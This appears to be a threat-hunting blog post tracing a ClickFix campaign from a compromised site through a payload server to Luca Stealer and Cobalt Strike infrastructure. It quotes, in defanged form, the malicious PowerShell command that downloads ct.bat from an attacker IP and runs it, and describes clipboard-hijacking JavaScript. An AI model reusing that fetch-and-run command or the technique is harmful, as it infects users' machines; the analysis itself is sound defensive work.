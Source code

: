 ```yaml
---
layout: post
title:  "Threat Hunting ClickFix Network IOCs"
date:   2025-09-09 21:00:00 +1000
categories: threathunting
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview

Grabbed a Clickfix IOC from Validin, following the breadcrumbs to see if I can attribute it to an adversary/malware strain.

Going to through out all IOCs and stuff because why not.

### Website serving Clickfix

"quirkyrealty[.]com"

Resolves to an Indian IP. Hosted by 'Web Werks India Pvt. Ltd. was an Indian data center and cloud solutions provider'
![alt text](/images/india_resolved.PNG)

Google dork see what we can get. Looks like a legit business? Well a not very legit one. 
![alt text](/images/quirky_google.PNG)

Booting up my VM to hit the website to see how this is being served.

![alt text](/images/landing_page.PNG)

Alright few points here from the screenshot above.
- No redirects/iframes/weird JS
- Malicious JavaScript exists within the first HTTP request to the domain
- Payload command written in cleartext (whoop whoop)
- Can see a juicy IP and the file 'ct.bat' that is downloaded from there.

Here is the malicious .JS that copies the command to the user's clipboard
- Uses document.execCommand
![alt text](/images/malicious_js.PNG)

Website is likely full comp'd or not legit in the first place.

Here is the full command from the ``command`` variable in the .JS
```const command = `powershell -c "Invoke-WebRequest -Uri 'hXXp://80[.]253[.]249[.]186:5504/ct.bat' -OutFile \"%temp%\ct.bat\" -UseBasicParsing; Start-Process \"%temp%\ct.bat\""`;```

### .Bat? 

```const command = `powershell -c "Invoke-WebRequest -Uri 'hXXp://80[.]253[.]249[.]186:5504/ct.bat' -OutFile \"%temp%\ct.bat\" -UseBasicParsing; Start-Process \"%temp%\ct.bat\""`;```

This is our payload command. Lets remove 'Start-Process', the const declaration and run it in my VM to save the file in temp.

```Invoke-WebRequest -Uri "hXXp://80[.]253[.]249[.]186:5504/ct.bat" -OutFile "C:\Users\ronald\Desktop\NewClicky\safe-file.txt"``

Alright well this is depressing. The file doesn't live on the web server anymore.

![alt text](/images/file_down.PNG)

So lets see what I can figure out about this IP then...

### IP? What are you...

We can see that 'ct.bat' is being served from the IP 80[.]253[.]249[.]186 at port 5504. 

Quick DNSLytics lookup.
![alt text](/images/clickfix_payload_ip.PNG)

What services are running on the IP?

![alt text](/images/shodan_result.PNG)

Fair few... that RCE CVE is juicy...

Anyhow, interesting that we can't see port 5504 here. Because that is the port that historically served 'ct.bat'

Hunt.io states it was last seen on the 9th of September. So I am one day late to the party. 

![alt text](/images/hunt.io_result.PNG)

Without any HTTP response body we can't do much else. Historical data is dry for this port on Censys, Validin and huntio.

For pivoting I'll look into RDP (3389)

A popular pivot from here is the SSL cert SHA_256 hash. Usually you would have to run an OpenSSL command to calculate this. But Validin has already calculated it for us.

![alt text](/images/validin_sha_256.PNG)

Now when we search this hash we have another IP.

![alt text](/images/validin_sha_result.PNG)

Snazzy. This gives us very high confidence they're related as they use the same RDP SSL cert!

Alright, when I whack this IP into VT I get some cool results.

![alt text](/images/VT_result.PNG)

We can see in the communicating files are Luca_Stealer. Specifically a Cobalt Strike beacon used for Luca Stealer. Assumely as a persistence method after exfilitration of initial data.

So, if I had to take an educated guess. I'd say our IP 80[.]253[.]249[.]186 serves the first stage payload for Luca Stealer.